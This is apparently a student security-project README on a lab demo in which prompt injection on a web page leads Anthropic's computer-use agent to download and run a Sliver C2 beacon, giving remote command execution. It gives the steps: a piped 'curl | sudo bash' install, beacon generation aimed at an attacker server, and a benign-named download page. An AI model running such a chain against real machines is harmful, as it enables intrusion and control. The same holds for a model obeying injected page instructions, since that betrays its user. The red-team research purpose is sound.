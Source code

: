 # Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

![screenshot](Sliver_start.png)

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the [Sliver documentation](https://sliver.sh/) for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
        - Time out when running the bash command if the internet is slow
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")
9. Run any command on the victim machine (usage can be found in the [Sliver documentation](https://sliver.sh/) or by running sliver > `help`)

![screenshot](Captured_computer.png)

# Presenatation notes:
### My contribution to the group project:
- Set up the git and project environment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command-and-Control attack vector.
    - Researched C2 applications and vectors
    - Determined viable webpage prompts
    - Determined plausible user requests that would result in starting the attack chain


### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
- Vulnerabilities in AI Tool Integration
    - Integrating LLMs with APIs or systems like the Anthropic computer use API opens potential security vulnerabilities, emphasizing the need for robust safeguards.
- Limitations of Current AI Implementations
    - While AI agents can perform advanced tasks, they also exhibit limitations such as misinterpreting commands, failing to execute specific tasks, or timing out, which can cause problems even before introducing malicious actors.
- Importance of Context-Aware Security Measures
    - Crafting plausible attack scenarios highlighted how subtle prompt manipulation combined with system flaws could bypass human oversight and create significant risks.

### How it applies to Computer Systems Security:
- As AI agents are given more power over consumer machines, we'll need to estabish new paradigms of security. Understanding and compiling large datasets of known malicous codes and attack methods will be necessary to attempt to "teach" LLMs to mitigate risk.

### Application areas: 
- Any AI tools requesting input permissions.

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.
2. Inconsistant outputs
    - The computer use application loop introduces several opportunities for hillucinations which makes getting the desired output out of the LLM incredibly difficult, regardless if the intent is malicous or not.